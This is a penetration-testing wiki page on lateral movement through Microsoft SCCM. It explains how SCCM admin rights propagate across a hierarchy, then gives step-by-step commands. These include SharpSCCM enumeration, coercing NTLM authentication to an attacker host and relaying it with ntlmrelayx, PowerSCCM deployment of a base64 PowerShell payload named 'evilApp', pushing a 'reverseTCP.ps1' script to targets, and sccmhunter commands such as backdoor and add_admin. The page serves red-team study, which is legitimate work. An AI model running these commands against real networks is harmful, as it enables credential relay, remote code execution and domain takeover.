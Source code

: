 # Lateral Movement

## Theory

Since the main goal of SCCM is to deploy applications and services on the managed assets of the Active Directory, it is also a pretty good candidate to move latteraly on the network. With administrative rights on the primary site server, this can be done by deploying applications and scripts on the targets or coercing clients' authentication.

Additionnaly, SCCM permits to enumerate many data on the ressources. Among all the services offered by SCCM to the administrator, there is one named **CMPivot**. This service, located on the MP server, can enumerate all the resources of a computer or computer collection (installed software, local administrators, hardware specification, etc.), and perform administrative tasks on them. It uses a HTTP REST API, named **AdminService**, provided by the SMS Provider server.

Finally, as indicated by [Chris Thompson](https://mobile.twitter.com/\_mayyhem) in his article [SCCM Hierarchy Takeover](https://posts.specterops.io/sccm-hierarchy-takeover-41929c61e087), by default, when a new user is promoted to any SCCM administrative role on a primary site server (for example, `Full Administrator`), **the role is automatically propagated to the other SCCM site in the hierarchy by the CAS**.

This means that there is no security boundary between SCCM sites in a same hierarchy, and being able to takeover one SCCM site implicates to takeover all the others.

## Practice

### Admin & Special Account Enumeration

This step requires administrative privileges over the SCCM Management Point (MP) in order to query the MP's WMI database.

{% tabs %}
{% tab title="Windows" %}
**Admin Users**

```powershell
PS:> .\SharpSCCM.exe get class-instances SMS_ADMIN
```

**Special Accounts**

```powershell
PS:> .\SharpSCCM.exe get class-instances SMS_SCI_Reserved
```

<div>

<figure><img src="../../../.gitbook/assets/SCCM_Lateral_Movement_User_Enum.png" alt=""><figcaption><p>Admin user enumeration in SCCM</p></figcaption></figure>

 <figure><img src="../../../.gitbook/assets/SCCM_Lateral_Movement_Special_Account_Enum.png" alt=""><figcaption><p>Special Account Enumeration in SCCM</p></figcaption></figure>

</div>
{% endtab %}
{% endtabs %}

### Applications and scripts deployment

{% tabs %}
{% tab title="SharpSCCM" %}
References:

* [https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867](https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)

**Step 1: Confirm Access permissions**

```powershell
PS:> .\SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames
```

**Step 2: Find target device**

```powershell
## Search for device of user "Frank.Zapper"
PS:> .\SharpSCCM.exe get primary-users -u Frank.Zapper

## List all active SCCM devices where the SCCM client is installed 
### CAUTION: This could be huge
PS:> .\SharpSCCM.exe get devices -w "Active=1 and Client=1"
```

**Step 3: Deploy Application to target device**

In this final step you can chose to either create an actual application to deploy to the target machine or just trigger an install from a remote UNC path in order to capture and relay an incoming NTLM authentication. Note the following:

* Coercing an authentication might be stealthier (and requires less cleanup) than installing an application
* To capture and relay NTLM credentials, the target device must support NTLM (very likely).
* The neat part: The Authentication can be coerced using the primary user account of the device OR the device computer account (you can choose)

```bash
## Prep capturing server
## ntlmrelayx targeting 10.250.2.179
$:> sudo python3 ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179
## Also keep Pcredz running, just in case
$:> sudo python3 ./Pcredz -i enp0s8 -t


## Run attack
PS:>.\SharpSCCM.exe exec -rid <TargetResourceID> -r <AttackerHost>
```

Note that the incoming authentication requsts might take a while (couple minutes) to roll in...

<div>

<figure><img src="../../../.gitbook/assets/SCCM_Lateral_Movement_Execution_Step3_Trigger_Deployment (1).png" alt=""><figcaption></figcaption></figure>

 <figure><img src="../../../.gitbook/assets/SCCM_Lateral_Movement_Execution_Step3_Capture_Authentication.png" alt=""><figcaption></figcaption></figure>

</div>
{% endtab %}

{% tab title="PowerSCCM" %}
With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

<pre class="language-powershell"><code class="lang-powershell"><strong># Create a SCCM Session via WMI with the Site Code
</strong>Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode <site_code> -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 "<powershell_script_in_Base64>"

# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
</code></pre>

If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```
{% endtab %}
{% endtabs %}

### AdminService API

It appears that, with SCCM administrative rights, it is possible to directly interact with the **AdminService** API, without using CMPivot, for post SCCM exploitation purpose.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) can be used for this purpose.

```bash
python3 sccmhunter.py admin -u "LAB\USER" -p PASSWORD -ip <site_server_IP>
```

Then, the `help` command can be typed in the opened shell to view all the CMPivot commands handled by [sccmhunter](https://github.com/garrettfoster13/sccmhunter).

```bash
() C:\ >> help

Documented commands (use 'help -v' for verbose/'help <topic>' for details):

Database Commands
=================
get_collection  get_device  get_lastlogon  get_puser  get_user

Interface Commands
==================
exit  interact

PostEx Commands
===============
add_admin  backdoor  backup  delete_admin  restore  script

Situational Awareness Commands
==============================
administrators  console_users  ipconfig   osinfo    sessions
cat             disk           list_disk  ps        shares  
cd              environment    ls         services  software
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) can be used for this purpose.

**Step 1: retrieve the ID of the resource to enumerate (a computer or a computer collection)**

```powershell
.\SharpSCCM.exe get resource-id -d "COMPUTER"
```

**Step 2: execute administrative tasks with CMPivot requests**

```powershell
#Enumerate the local administrators
.\SharpSCCM.exe invoke admin-service -r <resource_ID> -q "Administrators" -j

#Enumerate the installed softwares
.\SharpSCCM.exe invoke admin-service -r <resource_ID> -q "InstalledSoftware" -j
```

Instructions about how to write CMPivot queries are presented [here](https://learn.microsoft.com/fr-fr/mem/configmgr/core/servers/manage/cmpivot).
{% endtab %}
{% endtabs %}

### SCCM Hierarchy takeover

There is nothing to do. Just promote a user to any SCCM administrative role on a primary site server (for example, `Full Administrator`), and **the role will be automatically propagated to the other SCCM site in the hierarchy by the CAS**.

## Resources

{% embed url="https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/" %}

{% embed url="https://enigma0x3.net/2016/02/" %}

{% embed url="https://posts.specterops.io/sccm-hierarchy-takeover-41929c61e087" %}